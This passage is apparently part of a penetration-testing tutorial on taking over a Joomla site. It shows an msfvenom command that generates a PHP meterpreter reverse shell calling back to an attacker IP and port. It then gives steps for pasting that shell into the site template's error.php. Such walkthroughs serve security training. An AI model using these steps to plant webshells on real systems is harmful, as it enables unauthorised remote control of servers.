





4.1 Injecting a webshell payload
1. Let's generate a PHP reverse shell payload using “msfvenom” on the Kali Machine.
$msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.12.10 LPORT=4444 -f raw
Output:

This text is the one you have to copy.
2. Go to “Templates” and click on the "Protostar Details and Files" link (It's Jomla's default template..

4. Click on the “error.php” link.


6. Paste the shell code in the PHP code block right before the <!DOCTYPE html> declaration. Don’t forget to save the page.
